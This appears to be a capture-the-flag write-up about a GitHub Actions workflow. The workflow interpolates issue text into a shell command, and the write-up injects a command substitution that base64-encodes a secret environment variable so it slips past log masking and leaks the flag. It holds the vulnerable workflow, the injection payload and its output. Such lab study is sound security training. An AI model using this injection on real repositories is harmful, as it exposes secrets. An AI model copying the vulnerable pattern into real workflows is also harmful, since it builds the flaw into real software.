


# Comments

Head over to the [challenge-1 repository](https://github.com/OctoHigh/challenge-1-linpeiyu164)

It asks us to create a comment to submit a review of our favorite teacher.

By looking at the workflow file, we see that the secret flag is stored as the db_pass environment variable:

    jobs:
      parse-review:
        runs-on: ubuntu-latest
        steps:
          - name: Extract Teacher name and review from issue body
            id: extract-review
            env:
              db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
            run: |
              TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
              REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
              echo "::set-output name=teacher::$TEACHER"
              echo "::set-output name=review::$REVIEW"
          - name: Comment on issue
            uses: actions/github-script@v5
            with:
              github-token: ${{secrets.GITHUB_TOKEN}}
              script: |
                const issueComment = {
                  owner: context.repo.owner,
                  repo: context.repo.repo,
                  issue_number: ${{ github.event.issue.number }},
                  body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was:
                  ${'{{ steps.extract-review.outputs.review }}'}`
                };
                github.rest.issues.createComment(issueComment);

It also extracts the Teacher and the review we wrote. This meas that we can try to alter the text to make the workflow leak the secret flag:

test.sh:

```
db_pass="TEST_FLAG"


TEACHER=$(echo '
Thank you for taking the time to write a review about your teacher! Please fill out the template below to submit your feedback!

Teacher:
' $(echo $db_pass | base64) '

Review:
review

Rating (1-10):
10
' | grep -oP 'Teacher:.*$')


echo $TEACHER

```

We base64 encode it because the logs filter out any printed plaintext of the secrets.

Result:

    Teacher: VEVTVF9GTEFHCg==

The final comment and logs look like this:





Flag: EKO{m0ve_y0uR_b4dy}

## References

-   <https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/>
